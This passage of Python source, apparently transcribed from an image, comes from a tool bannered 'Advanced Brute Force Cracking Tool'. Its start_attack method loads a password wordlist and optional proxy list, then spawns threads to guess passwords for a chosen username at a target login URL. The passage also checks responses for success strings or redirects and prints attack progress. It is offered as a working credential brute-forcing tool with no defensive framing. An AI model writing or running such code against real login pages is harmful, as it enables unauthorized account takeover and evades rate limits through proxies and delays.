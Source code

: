         response_text = response.text.lower()
        
        if any(indicator in response_text for indicator in success_indicators):
            return True
        
        if response.status_code == 302 or response.status_code == 301:
            return True
            
        return False
    
    def start_attack(self, url, username, wordlist_file, proxy_file=None, threads=5, delay=(1, 3), timeout=10):
        print(f"{Colors.SKY_BLUE}[*] Starting attack on: {url}{Colors.END}")
        print(f"{Colors.SKY_BLUE}[*] Target username: {username}{Colors.END}")
        print(f"{Colors.SKY_BLUE}[*] Using {threads} threads{Colors.END}")
        
        passwords = self.load_wordlist(wordlist_file)
        if not passwords:
            return False
        
        proxies = self.load_proxies(proxy_file) if proxy_file else []
        
        password_queue = Queue()
        for password in passwords:
            password_queue.put(password)
        
        thread_pool = []
        for i in range(threads):
            thread = threading.Thread(
                target=self.brute_worker,
                args=(url, username, password_queue, proxies, delay, timeout)
            )
            thread.daemon = True
            thread_pool.append(thread)
            thread.start()
        
        try:
            while any(thread.is_alive() for thread in thread_pool) and not self.found:
                time.sleep(0.1)
            
            password_queue.join()
            
        except KeyboardInterrupt:
            print(f"\n{Colors.YELLOW}[!] Attack interrupted by user!{Colors.END}")
            return False
        
        if not self.found:
            print(f"\n{Colors.RED}[!] No valid password found!{Colors.END}")
        
        return self.found

def clear_screen():
    os.system('cls' if os.name == 'nt' else 'clear')

def show_banner():
    banner = f"""
{Colors.CYAN}    _    _ _____    _______
{Colors.CYAN}   | |  | |  __ \  |__   __|
{Colors.CYAN}   | |__| | |__) |    | | ___  __ _ _ __ ___
{Colors.CYAN}   |  __  |  _  /     | |/ _ \/ _` | '_ ` _ \\
{Colors.CYAN}   | |  | | | \ \     | |  __/ (_| | | | | | |
{Colors.CYAN}   |_|  |_|_|  \_\    |_|\___|\__,_|_| |_| |_|
{Colors.END}
{Colors.PURPLE}   ╔══════════════════════════════════════════╗
{Colors.PURPLE}   ║           ADVANCED BRUTE FORCE           ║
{Colors.PURPLE}   ║              CRACKING TOOL              ║
{Colors.PURPLE}   ╚══════════════════════════════════════════╝{Colors.END}
    """
    print(banner)

